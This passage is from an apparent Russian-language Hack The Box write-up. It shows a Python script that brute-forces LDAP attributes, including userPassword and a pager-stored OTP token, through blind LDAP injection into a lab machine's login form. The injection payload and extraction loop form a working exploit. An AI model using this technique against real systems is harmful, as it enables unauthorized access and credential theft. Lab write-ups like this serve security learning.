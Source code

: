 ![existing-attributes.png]({{ "/img/htb/boxes/ctf/existing-attributes.png" | relative_url }})
{: .center-image}

Итак, шесть атрибутов из нашего словаря существуют в каталоге. Где было бы логичнее всего хранить 81 цифру для токена CTF? Скорее всего, это будет значение атрибута pager — ведь 2019-й год на дворе, кто-то еще пользуется пейджерами? Я вот их даже не застал... Ну да ладно, все равно мы ради интереса сбрутим все присутствующие атрибуты.

Переименовав скрипт на Python в brute.py (что надо было сделать еще при предыдущей его модификации), я в очередной раз его немного видоизменю и сдамплю все существующие атрибуты по списку.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 brute.py

import re
import time
from datetime import timedelta
from string import ascii_lowercase, digits
from urllib.parse import quote_plus

import requests

URL = 'http://10.10.10.122/login.php'

ATTRIBUTES = [
	'mail',
	'cn',
	'uid',
	'userPassword',
	'sn',
	'pager'
]

timestart = time.time()
print()

for a in ATTRIBUTES:
	attr, done = '', False

	while not done:
		if a == 'pager':
			charset = digits
		else:
			charset = ascii_lowercase + digits + '_-@.'

		for c in charset:
			# Инъекция вида "ldapuser)(<ATTRIBUTE>=*)))%00"
			inject = f'ldapuser{quote_plus(")(")}{a}{quote_plus("=")}{attr}{c}{quote_plus("*)))")}'

			data = {
				'inputUsername': inject + '%00',
				'inputOTP': '31337'
			}

			resp = requests.post(URL, data=data)

			match = re.search(r'<div class="col-sm-10">(.*?)</div>', resp.text, re.DOTALL)
			if match.group(1).strip() == 'Cannot login':
				attr += c
				break

```